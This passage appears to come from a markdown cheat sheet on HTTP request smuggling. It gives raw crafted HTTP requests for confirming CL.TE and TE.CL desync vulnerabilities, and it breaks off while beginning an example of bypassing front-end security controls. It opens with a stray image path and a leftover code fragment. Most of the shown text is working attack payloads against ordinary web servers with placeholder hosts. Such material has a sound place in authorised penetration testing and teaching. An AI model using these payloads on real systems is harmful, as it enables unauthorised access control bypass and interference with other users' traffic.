	x=1  
	0

	```
	
	
#### Confirming vulnerabilities

- Confirming a CL.TE vulnerability via differential responses

	Using same technique as previous you can target a page you are sure about the response like 404, home or whatever. The request should return the page on the second header. Here is an example
	
	```header
	POST / HTTP/1.1  
	Host: WEBSITE 
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 35  
	Transfer-Encoding: chunked  

	0  

	GET /404 HTTP/1.1  
	X-Ignore: X

	```
	
- Confirming a TE.CL vulnerability via differential responses

	Same thing as before just a different way to do it.  Here is an example:
	
	```header
	POST / HTTP/1.1  
	Host: WEBSITE
	Content-Type: application/x-www-form-urlencoded  
	Content-length: 4  
	Transfer-Encoding: chunked  

	5e  
	POST /404 HTTP/1.1  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 15  

	x=1  
	0

	```
	
	
#### Bypass front-end protections
- Bypass front-end security controls, CL.TE vulnerability

	Here is an example of how you can bypass the front to make the back do what you want (that's an example and you really have to adapt it):
	
	```header
	POST / HTTP/1.1  
    Host: WEBSITE
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 139  
    Transfer-Encoding: chunked  
      